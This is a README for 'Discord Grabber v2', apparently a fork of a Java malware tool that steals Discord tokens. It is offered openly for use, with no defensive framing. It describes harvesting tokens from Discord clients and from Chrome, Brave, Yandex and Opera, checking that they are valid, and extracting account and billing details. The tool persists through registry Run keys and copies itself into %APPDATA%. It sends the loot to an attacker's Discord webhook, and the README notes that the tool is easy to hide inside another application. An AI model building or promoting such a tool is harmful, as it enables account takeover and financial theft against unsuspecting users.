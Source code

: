 # Discord Grabber v2

Discord Grabber v2 is the second version of a discord token logger, improvements from the previous version are:

- Checks whether or not the token is valid
- Provides information regarding the account
- Has a minimum amount of persistence (namely moving itself to %APPDATA% and placing itself in the Run directory of the registry
- Has embed and raw text
- Checks for tokens in multiple locations

## Why should I use this fork?
This fork does ```not``` uses a ```.txt``` file for configuration.
You should configure it directly in the ```Main.java```.
It's easier to hide it in your application.
Remember: ```I am *not* responsible for your actions!```

## Features
Current features include:

- Send information via discord webhook (Embed)
- Checks for Discord (Canary, PTB) tokens, Google Chrome, Brave Browser, Yandex Browser and Opera Browser
- Checks whether the token(s) is valid before sending it to avoid disabled tokens flooding the webhook
- Persists in registry (Run, RunOnce, RunServices, RunServicesOnce)
- Copies itself into %APPDATA% every time it runs (under a random UUID)
- No need for dependencies
- Check whether or not discord account has nitro
- Check the billing information (if nitro is present)

## WIP
- Suggest ideas


## Usage

The idea is to edit the source code yourself, edit the settings, and add the webhook. The release version  can be used but the settings can not be changed, and the webhook has to be passed as the first and only argument

```Double-click it | or type in your terminal/cmd: java -jar <filename>.jar https://discord.com/api/webhooks/id/token```

See original Xefer-0 Youtube video: https://youtu.be/ZC9lHFn2ekU
## Contributing
You may do with this code whatever you want, I would appreciate suggestions or if you tell me what you change, but it is not needed.

## Disclaimer
I am in no way responsible for what you do using my program/code.

## Example
### Embed mode
![Example output](https://raw.githubusercontent.com/Xefer-0/DiscordGrabber/master/ss.png)
### Text mode
![Example output](https://raw.githubusercontent.com/Xefer-0/DiscordGrabber/master/ss2.png)

